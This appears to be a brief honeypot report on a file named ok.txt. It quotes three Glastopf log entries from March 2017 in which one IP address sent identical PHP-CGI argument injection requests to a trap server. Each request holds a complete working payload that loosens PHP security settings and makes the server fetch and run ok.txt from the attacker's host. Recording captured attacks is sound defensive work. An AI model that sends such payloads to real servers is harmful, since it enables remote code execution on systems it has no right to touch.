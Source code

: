 #Source of the file ok.txt
The file ``ok.txt`` was downloaded from ``http://191.96.249.97/ok.txt``, below are the Glastopf resources requested with dates. 

####LINE 006:
2017-03-26 03:24:29,428 (glastopf.glastopf) 191.96.249.97 requested GET /cgi-bin/php?-d+allow_url_include%3Don+-d+safe_mode%3Doff+-d+suhosin.simulation%3Don+-d+max_execution_time%3D0+-d+disable_functions%3D""+-d+open_basedir%3Dnone+-d+auto_prepend_file%3Dhttp://191.96.249.97/ok.txt+-d+cgi.force_redirect%3D0+-d+cgi.redirect_status_env%3D0+-n on 13dc3d8ebca9:80

####LINE 309:
2017-03-22 23:13:13,009 (glastopf.glastopf) 191.96.249.97 requested GET /cgi-bin/php?-d+allow_url_include%3Don+-d+safe_mode%3Doff+-d+suhosin.simulation%3Don+-d+max_execution_time%3D0+-d+disable_functions%3D""+-d+open_basedir%3Dnone+-d+auto_prepend_file%3Dhttp://191.96.249.97/ok.txt+-d+cgi.force_redirect%3D0+-d+cgi.redirect_status_env%3D0+-n on 13dc3d8ebca9:80

####LINE 360:
2017-03-24 13:31:53,600 (glastopf.glastopf) 191.96.249.97 requested GET /cgi-bin/php?-d+allow_url_include%3Don+-d+safe_mode%3Doff+-d+suhosin.simulation%3Don+-d+max_execution_time%3D0+-d+disable_functions%3D""+-d+open_basedir%3Dnone+-d+auto_prepend_file%3Dhttp://191.96.249.97/ok.txt+-d+cgi.force_redirect%3D0+-d+cgi.redirect_status_env%3D0+-n on 13dc3d8ebca9:80

## Analysis
Further analysis of the driveby exploit is required.
